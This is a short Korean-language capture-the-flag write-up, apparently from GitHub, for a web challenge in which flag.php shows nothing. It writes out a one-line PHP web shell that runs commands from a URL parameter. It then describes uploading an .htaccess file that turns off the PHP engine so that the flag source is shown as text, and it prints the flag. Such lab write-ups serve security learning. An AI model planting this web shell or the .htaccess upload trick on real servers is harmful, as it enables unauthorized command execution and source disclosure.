





# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

flag.php링크를 클릭하면 아무것도 안보인다. php코드에 FLAG 값이 존재하는 것으로 추측된다.



간단한 웹쉘을 만들어보자.

```php
<?php
system($_GET['cmd']);
?>
```

업로드 해보면 '<' 문자가 필터링되어 php로서 파일을 실행시킬 수 없다.



.htaccess 파일을 올려서 php를 실행시키지 않고, 텍스트로 출력하는 방향으로 잡자. .htaccess파일을 만든다.

    php_flag engine off

업로드한 후 flag.php에 접근하면 FLAG를 획득할 수 있다.



점수를 획득하자.




# **FLAG**

**FLAG{easy_peasy_apachy}**